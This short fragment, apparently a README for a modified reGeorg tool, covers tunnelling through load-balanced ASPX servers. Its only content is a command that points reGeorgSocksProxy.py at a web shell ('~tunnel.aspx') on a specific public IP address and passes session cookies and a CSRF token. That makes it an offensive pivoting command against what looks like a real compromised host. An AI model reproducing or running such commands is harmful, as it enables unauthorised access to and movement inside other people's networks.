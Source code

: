 ### Edit regeo for supporting multi aspx worker load balancing
```
python reGeorgSocksProxy.py -u http://125.235.4.147/images/~tunnel.aspx -c "__CSRFCOOKIE=1068175c-1f8f-419d-a489-5ea0531cc4f3; ASP.NET_SessionId=5obu0h45eiddhp451hfsbm45; randomStr=value=CPXP4" -d "_CSRFTOKEN=/wEFJDEwNjgxNzVjLTFmOGYtNDE5ZC1hNDg5LTVlYTA1MzFjYzRmMw=="
```